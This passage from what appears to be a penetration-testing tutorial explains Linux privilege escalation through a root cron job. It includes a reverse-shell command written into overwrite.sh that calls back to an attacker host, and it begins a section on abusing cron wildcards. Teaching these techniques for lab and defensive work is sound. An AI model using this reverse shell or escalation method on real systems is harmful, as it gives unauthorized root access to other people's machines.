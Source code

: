 Analyzing the `crontab` file reveals an interesting cron job that runs a Bash script named `overwrite.sh` as the root user

```
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

The cron job has also been configured to run every 1 minute of every hour, every day, and every month. Now that we have identified a potential cron job that has the necessary requirements, we can begin the privilege escalation process:

1.  Te first step in this process involves locating and identifying the location of the `overwrite.sh` script that is run by the cron job. We were able to determine the default path used by the cron job is the user account's home directory. We can display the contents of the directory by running the following command:

    We are unable to locate the `overwrite.sh` script in the `user` home directory. This could be because the `root` user has not created the script yet.In any event, we can create the script ourselves and get it to provide us with a reverse shell with root privileges as the cron job will execute the script as the root user.
2.  We can create the `overwrite.sh` script and insert a Bash command that will provide us with a reverse shell. This can be done by running the following command in the `user` home directory:

    ```
    echo "bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1" > overwrite.sh
    ```

    This command will add a `bash` command that will connect to our reverse listener on the Kali Linux VM. Ensure that you replace the fields in the command with the respective IP address and port number.

    Once we have created this file, we need to set up a reverse listener with Netcat.
3. We can set up the reverse listener on the Kali VM by running the following command:

Ensure that you specify the port that you used in the `overwrite.sh` script. After setting up the listener, we will need to wait for a few minutes for the cron job to run. Once the cron job has been invoked, the `overwrite.sh` script will be executed. We should get a reverse shell on our listener with root privileges

With that, we have successfully elevated our privileges by leveraging a misconfiguration in the crontab `$PATH` variable. This allowed us to execute a custom command that provided us with an elevated reverse shell on the target system.

#### Escalation via cro wildcards[​](broken-reference) <a href="#escalation-via-cro-wildcards" id="escalation-via-cro-wildcards"></a>

This privilege escalation technique involves taking advantage of cron jobs that execute commands or scripts with wildcards. In the context of Linux, wildcards (\*) are used to perform more than one action at a time, and they can be used in a variety of different ways. In this section, we will explore how they can be exploited to execute malicious commands or scripts if misconfigured. The success of this technique will depend on whether or not wildcards have been utilized in cron jobs.

Follow these steps:

1.  The first step in this process involves identifying cron jobs that run commands or scripts with wildcards. Analyzing the crontab file reveals an interesting cron job that is responsible for creating and compressing backup archives:
